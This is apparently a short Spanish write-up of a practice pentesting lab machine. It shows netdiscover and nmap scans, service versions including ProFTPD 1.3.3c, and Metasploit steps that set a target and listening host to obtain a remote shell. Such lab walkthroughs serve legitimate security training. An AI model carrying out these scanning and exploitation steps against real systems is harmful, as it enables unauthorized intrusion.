 ```yaml
---
title: Basic pentesting1.
description: Esta máquina es una prueba basica de pentesting.
date: 2025-03-04
scheduled: 2025-03-04
tags:
  - number-2
layout: layouts/post.njk
---
```



# Instalar maquina poner en modo puente

## Buscar la ip

```bash
sudo netdiscover -r 10.0.0.0/16
```

10.0.4.39       08:00:27:9b:76:e6     39    2340  PCS Systemtechnik GmbH

Vemos las ip

```bash
sudo nmap 10.0.4.39
nmap -Pn -sV 10.0.4.39
```

PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.3c
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
MAC Address: 08:00:27:9B:76:E6 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

## Buscamos vulnerabilidades que tiene los servicios

- Exploit database
- Google
- Chat gpt


En Exploit database introducimos el servicio de ProFTPD 1.3.3c, nos dice que hay disponible un metaexploit.

## Ejecutar el metaexploit

- Abrir la consola mfsconsole

```bash
 sudo mfsconsole

```

- Buscar exploit que vamos a usar

```bash
 search ProFTPD 1.3.3c
```

- Seleccionamos el payloads que vamos a usas

```bash
 show payload
```
PONEMOS ES QUE NOSOTROS QUERAMOS O MÁS NOS GUSTE

- Una vez seleccionado ponemos los parametros que necesitamos

```bash
 show options
```

```bash
 set RHOSTS 10.0.4.39
 set LHOSTS "MI IP"
```

- Ejecutar

```bash
 run
```

- Ya se levantaria un shell para acceder a la maquina
